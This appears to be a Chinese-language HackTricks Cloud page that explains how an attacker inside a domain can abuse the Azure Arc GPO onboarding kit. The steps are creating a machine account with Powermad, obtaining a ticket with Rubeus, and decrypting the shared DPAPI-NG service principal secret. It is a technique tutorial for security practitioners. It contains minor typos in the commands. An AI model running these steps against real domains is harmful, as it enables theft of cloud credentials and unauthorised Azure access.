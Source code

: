 # Az - Azure Arc易受攻击的GPO部署脚本

{% hint style="success" %}
学习并练习AWS黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享黑客技巧。

</details>
{% endhint %}

### 识别问题

Azure Arc允许使用组策略对象方法将新的内部服务器（加入域服务器）集成到Azure Arc中。为了方便这一过程，Microsoft提供了一个部署工具包，用于启动入职流程。在ArcEnableServerGroupPolicy.zip文件中，可以找到以下脚本：DeployGPO.ps1、EnableAzureArc.ps1和AzureArcDeployment.psm1。

执行DeployGPO.ps1脚本时，会执行以下操作：

1. 在本地域内创建Azure Arc服务器入职GPO。
2. 将EnableAzureArc.ps1入职脚本复制到为入职流程创建的指定网络共享中，该共享还包含Windows安装程序包。

运行此脚本时，系统管理员需要提供两个主要参数：**ServicePrincipalId**和**ServicePrincipalClientSecret**。此外，还需要提供其他参数，如域、托管共享的服务器的FQDN和共享名称。还必须向脚本提供租户ID、资源组和其他必要信息。

使用DPAPI-NG加密在指定共享的AzureArcDeploy目录中生成加密的秘密。加密的秘密存储在名为encryptedServicePrincipalSecret的文件中。可以在DeployGPO.ps1脚本中找到此操作的证据，加密是通过使用ProtectBase64和$descriptor以及$ServicePrincipalSecret作为输入来执行的。描述符由域计算机和域控制器组SID组成，确保ServicePrincipalSecret只能被域控制器和域计算机安全组解密，如脚本注释中所述。
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### 攻击

我们有以下条件：

1. 我们已成功渗透内部网络。
2. 我们有能力创建或控制活动目录中的计算机帐户。
3. 我们发现了一个包含 AzureArcDeploy 目录的网络共享。

在 AD 环境中获取计算机帐户有几种方法。其中最常见的方法之一是利用计算机帐户配额。另一种方法涉及通过易受攻击的 ACL 或其他各种配置错误来 compromise 计算机帐户。
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
一旦获得机器账户，就有可能使用该账户进行身份验证。我们可以使用带有netonly标志的runas.exe命令，或者使用Rubeus.exe进行票据传递。
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
通过在内存中存储我们计算机帐户的TGT，我们可以使用以下脚本来解密服务主体密码。
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatively, we can use [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

此时，我们可以从存储在与encryptedServicePrincipalSecret文件相同的网络共享上的ArcInfo.json文件中获取连接到Azure所需的剩余信息。该文件包含诸如：TenantId、servicePrincipalClientId、ResourceGroup等详细信息。有了这些信息，我们可以使用Azure CLI来作为受损的服务主体进行身份验证。

## 参考

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)
